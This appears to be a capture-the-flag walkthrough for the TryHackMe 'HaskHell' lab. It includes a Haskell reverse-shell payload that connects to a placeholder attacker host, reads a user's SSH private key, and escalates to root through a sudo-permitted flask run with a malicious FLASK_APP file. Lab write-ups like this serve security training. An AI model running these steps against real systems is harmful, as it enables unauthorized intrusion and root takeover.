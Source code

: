 # [HaskHell](https://tryhackme.com/room/haskhell)

## Teach your CS professor that his PhD isn't in security.

# HaskHell

## Show your professor that his PhD isn't in security.

### Get the flag in the user.txt file.

1. First, let's discover what services are running on the target machine

```bash
nmap <TARGET_IP>
```

<img width="650" height="243" alt="SCREEN01" src="https://github.com/user-attachments/assets/341d3e5e-f1d3-493d-b155-be7c9100b343" />

2. Let's perform directory enumeration to find available endpoints
   - Found endpoint: `http://<TARGET_IP>:5001/submit`

```bash
gobuster dir -u http://<TARGET_IP>:5001 -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

3. Test the code submission functionality by uploading a simple Haskell file to `http://<TARGET_IP>:5001/submit` then visit `http://<TARGET_IP>:5001/uploads/test.hs` to see it executes

```haskell
main :: IO ()
main = putStrLn "Hello World"
```

<img width="639" height="97" alt="SCREEN02" src="https://github.com/user-attachments/assets/92e47b44-b2e0-46ce-b963-a5bc6a6ec0ac" />

4. Set up a netcat listener and create a malicious Haskell reverse shell payload using `System.Process`

```bash
nc -lvnp 4444
```

```haskell
import System.Process
main = callCommand "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'"
```

5. Once connected, navigate to the prof user's home directory and read the user flag

```bash
cat /home/prof/user.txt
```

<img width="648" height="49" alt="SCREEN03" src="https://github.com/user-attachments/assets/980701e4-a54d-4d2d-92a2-2b81ad556815" />

---

### Obtain the flag in root.txt

1. Explore the user's home directory and discover SSH private key

```bash
cat /home/prof/.ssh/id_rsa
```

<img width="651" height="390" alt="SCREEN04" src="https://github.com/user-attachments/assets/dc8481b9-3ec6-47bb-b6d4-deea123fa36c" />

2. Copy the private key to your local machine, set proper permissions on the SSH key and connect as prof user

```bash
chmod 600 id_rsa
ssh -i id_rsa prof@<TARGET_IP>
```

3. Check what sudo privileges the prof user has
   - The user can run `/usr/bin/flask run` as root without password

```bash
sudo -l
```

<img width="650" height="131" alt="SCREEN05" src="https://github.com/user-attachments/assets/636b19fc-5b73-466b-9756-fab75a01bb2d" />

4. Abuse Flask's `FLASK_APP` environment variable to execute arbitrary Python code as root

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/app.py
export FLASK_APP=/tmp/app.py
sudo /usr/bin/flask run
```

<img width="649" height="145" alt="SCREEN06" src="https://github.com/user-attachments/assets/4e990082-88b3-4987-9360-8ee6021b1d9e" />

5. Read the root flag from the root directory

```bash
cat /root/root.txt
```

<img width="648" height="31" alt="SCREEN07" src="https://github.com/user-attachments/assets/1a683f28-4d7f-43e2-98fe-21d6baff44c7" />
